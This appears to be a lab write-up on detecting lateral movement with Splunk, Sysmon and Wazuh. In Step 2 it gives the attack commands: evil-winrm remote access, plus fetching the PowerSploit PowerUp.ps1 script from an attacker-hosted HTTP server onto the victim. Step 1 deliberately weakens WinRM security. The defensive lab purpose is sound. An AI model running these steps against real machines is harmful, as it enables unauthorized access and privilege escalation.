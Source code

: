 **Detection Use Case 2: Lateral Movement**

---

### ✨ Objective

To detect lateral movement where an attacker uses Evil-WinRM to remotely access a Windows machine and downloads the PowerUp.ps1 script for privilege escalation checks.

### 📑 Lab Setup

* **Attacker Machine:** Kali Linux
* **Victim Machine:** Windows 11

  * Sysmon Installed
  * Wazuh Agent Installed
  * Universal Forwarder Installed (for Splunk)
* **SIEM:** Splunk Free (running on Ubuntu VM with Wazuh Stack)

---

## 🚀 Step-by-Step Guide

### ✅ Step 1: Configure WinRM on Windows 11 (Victim)

Run these PowerShell commands as Administrator:

```powershell
Set-NetConnectionProfile -InterfaceAlias "Ethernet0" -NetworkCategory Private
Enable-PSRemoting -Force
Set-Item WSMan:\localhost\Service\Auth\Basic -Value $true
Set-Item WSMan:\localhost\Service\AllowUnencrypted -Value $true
Restart-Service WinRM
```

> Ensure the firewall is open for TCP port 5985

```powershell
New-NetFirewallRule -Name "AllowWinRM5985" -DisplayName "Allow WinRM Port 5985" -Protocol TCP -LocalPort 5985 -Action Allow
```

---

### ✅ Step 2: Evil-WinRM Attack from Kali

#### 2.1: Install Evil-WinRM (if needed)

```bash
sudo apt update && sudo apt install evil-winrm -y
```

#### 2.2: Connect to Victim

```bash
evil-winrm -i <Victim-IP> -u <username> -p <password>
```

> Replace with actual victim IP and credentials.

#### 2.3: Download PowerUp.ps1 Script

On Kali:

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
python3 -m http.server 8888
```

On Evil-WinRM shell (Victim):

```powershell
Invoke-WebRequest -Uri http://<Kali-IP>:8888/PowerUp.ps1 -OutFile C:\Users\<username>\PowerUp.ps1
```

---

### 🔎 Step 3: Detection in Splunk

#### 3.1: Successful Login (Security Event 4624)

```spl
index=* EventCode=4624 Account_Name=testuser
```

Look for Logon Type = 3, and source IP = Kali

#### 3.2: PowerShell Remoting (Event 5156)

```spl
index=* EventCode=5156
```

*If Image doesn't exist, check for Application\_Name or SourceImage fields.*

#### 3.3: File Creation via PowerShell (Sysmon Event 11)

```spl
index=* EventCode=11 TargetFilename="*PowerUp.ps1"
```

#### 3.4: Optional - Network Connections via Sysmon (Event 3)

```spl
index=* EventCode=3
```

---

### ⚡ Detection Summary

* **4624**: Remote login from attacker (Kali) via Evil-WinRM
* **5156 / 3**: PowerShell Remoting process activity 
* **11**: File creation of PowerUp.ps1 via PowerShell

---


